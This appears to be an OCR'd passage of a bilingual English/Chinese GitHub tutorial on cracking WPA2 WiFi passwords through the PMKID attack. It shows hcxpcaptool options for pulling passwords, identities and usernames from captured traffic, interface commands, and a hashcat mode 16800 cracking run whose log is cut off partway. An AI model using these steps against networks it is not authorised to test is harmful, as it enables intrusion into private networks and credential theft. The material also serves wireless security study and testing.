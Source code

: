 `PURE FURNITURE`

`whoismac -p 69d4ec91a19657d64d4ccc869c229bbe*9e3dcf272236*f0a225dab76d*53696c7665724d61676e6f6c6961`

        ESSID..: SilverMagnolia
        MAC_AP.: 9e3dcf272236
        VENDOR.: unknown
        MAC_STA: f0a225dab76d
        VENDOR.: Private
Note: While note required it is recommended to use options `-E -I` and `-U` with hcxpcaptool. We can use these files to feed hashcat. They typically produce good results.注意：我们建议为hcxpcaptool使用选项-E -I和-U，当然，这不是必须的。我们可以使用这些文件来“饲喂”hashcat，并且通常会产生非常好的效果。
* `-E` retrieve possible passwords from WiFi-traffic (additional, this list will include ESSIDs)
* `-I` retrieve identities from WiFi-traffic
* `-U` retrieve usernames from WiFi-traffic
`$ ./hcxpcaptool -E essidlist -I identitylist -U usernamelsit -z test.16800 test.pcang`

#### 3. change to managed mode
`sudo ip link set wlx00c0ca972033 down`
`sudo iw dev wlx00c0ca972033 set type managed`
`sudo ip link set wlx00c0ca972033 up`
#### 4. Run hashcat to crack it.
We can download the newly updated https://hashcat.net/hashcat/ V4.2.0 which cracks two new hash types:
WPA-PMKID-PBKDF2
WPA-PMKID-PMK
The files have been copied to a windows host and “cracked” below for illustration purposes only. Since it’s a single hex encoded string, it’s much easier to copy and mange between different hosts.
![hashcat_PMKID_test](hashcat_PMKID_test.png)

        c:\Users\Adam\Downloads\hashcat-4.2.0>hashcat64.exe -m 16800 E4200-WPA2PSK.16800 wordlist.txt
        hashcat (v4.2.0) starting…
        ======================================
        * Device #1: GeForce GTX 1080, 2048/8192 MB allocatable, 20MCU
        OpenCL Platform #2: Intel(R) Corporation
        ========================================
        * Device #2: Intel(R) Core(TM) i7–6800K CPU @ 3.40GHz, skipped.
        Hashes: 1 digests; 1 unique digests, 1 unique salts
        Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
        Rules: 1
        Applicable optimizers:
        * Zero-Byte
        * Single-Hash
        * Single-Salt
        * Slow-Hash-SIMD-LOOP
        Minimum password length supported by kernel: 8
        Maximum password length supported by kernel: 63
        Watchdog: Temperature abort trigger set to 90c
        Dictionary cache built:
        * Filename..: wordlist.txt
        * Passwords.: 3
